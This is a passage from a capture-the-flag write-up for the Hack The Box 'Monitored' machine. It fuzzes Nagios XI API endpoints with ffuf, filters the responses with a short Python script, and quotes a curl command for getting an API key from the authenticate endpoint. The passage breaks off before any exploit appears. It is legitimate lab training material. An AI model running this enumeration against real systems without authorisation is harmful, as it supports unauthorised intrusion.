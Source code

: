 ```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt -s > api-endpoints.txt
```

Note that most of them gives the same message: `Message {"error":"No API Key provided"}`. That being noted, we will write a python script to see if there is any other messages within these:

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def open_wordlist(path):
    wordlist = []
    with open(path, 'r') as file:
        for line in file:
            wordlist.append(line.strip())
    return wordlist

def main(args):
    url = args[0]
    wordlist_file = args[1]
    wordlist = open_wordlist(wordlist_file)
    for word in wordlist:
        res = requests.get(url + word, verify=False)
        if 'No API Key provided' not in res.text:
            print(f"Message {res.text} at endpoint {url+word}\n")

if __name__ == '__main__':
    argv = sys.argv
    if len(argv) != 3:
        print("Usage: fetch-req-msg.py <URL> <WORDLIST>")
        exit(0)
    main(argv[1:])
```

We are filtering it out any messages that contain `No API Key provided` string and printing the ones with a different message.

```bash
$ python fetch-req-msg.py https://nagios.monitored.htb/nagiosxi/api/v1/ api-endpoints.txt 
Message {"error":"No request was made"}
 at endpoint https://nagios.monitored.htb/nagiosxi/api/v1/0

Message {"error":"You can only use POST with authenticate."}
 at endpoint https://nagios.monitored.htb/nagiosxi/api/v1/authenticate
```

We note an authentication endpoint present that does not require an API key. After a bit of research, I've found [this](https://support.nagios.com/forum/viewtopic.php?f=16&t=58783) topic on this endpoint, where it states that we can authenticate via cURL using 
`curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=YOURPASS&valid_min=5'`. We can try to authenticate and retrieve an API key with the credentials we found using snmpwalk:
